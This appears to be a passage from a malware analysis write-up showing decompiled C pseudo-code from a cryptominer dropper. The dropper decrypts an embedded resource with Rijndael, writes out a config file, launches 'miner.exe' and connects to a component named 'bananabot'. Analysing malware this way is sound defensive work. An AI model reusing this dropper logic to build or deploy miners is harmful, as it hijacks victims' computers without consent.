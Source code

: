 ```c
        v14 = WriteFile(FileA, v13 + 42, v42, &v47, 0i64);
        v15 = FileA;
        if ( !v14 || v42 != v47 )
          goto LABEL_19;
        CloseHandle(FileA);
```

The config file is being dropped:
```c
        FileA = CreateFileA(config_json, 0x40000000u, 0, 0i64, 2u, 0x80u, 0i64);
        if ( FileA != (HANDLE)-1i64 ) {
          v16 = ((__int64 (__fastcall *)(HMODULE, __int64, __int64))FindResourceA)(ModuleHandleA, 2i64, 10i64);
          if ( v16 ) {
            v43 = v16;
            v38 = ((__int64 (__fastcall *)(HMODULE, __int64))SizeofResource)(ModuleHandleA, v16);
            if ( v38 ) {
              v17 = ((__int64 (__fastcall *)(HMODULE, __int64))LoadResource)(ModuleHandleA, v43);
              if ( v17 ) {
                v18 = (void *)((__int64 (__fastcall *)(__int64))LockResource)(v17);
                v19 = u_decrypt_buf_with_rijndael(v18, v38);
                v39 = v38 - 50;
                v20 = ((__int64 (__fastcall *)(HANDLE, char *, _QWORD, DWORD *, _QWORD))WriteFile)(
                        FileA,
                        v19 + 42,
                        v39,
                        &v47,
                        0i64);
                v15 = FileA;
                if ( !v20 || v39 != v47 ) {
                  CloseHandle(v15);
                  return;
                }
                CloseHandle(FileA);
                /* ... */
```

The `miner.exe` process is being launched:
```c
                if ( !CreateProcessA(miner_exe, 0i64, 0i64, 0i64, 0, 0, 0i64, base_dir, &v57, &v50) ) {
                  TerminateProcess(v50.hProcess, 0);
                  v34 = 12i64;
                  v33 = &v53;
                  v35 = 0;
                  goto LABEL_45;
                }
                if ( !u_connect_to_bananabot() ) {
                  TerminateProcess(v50.hProcess, 0);
                  return;
                }
```
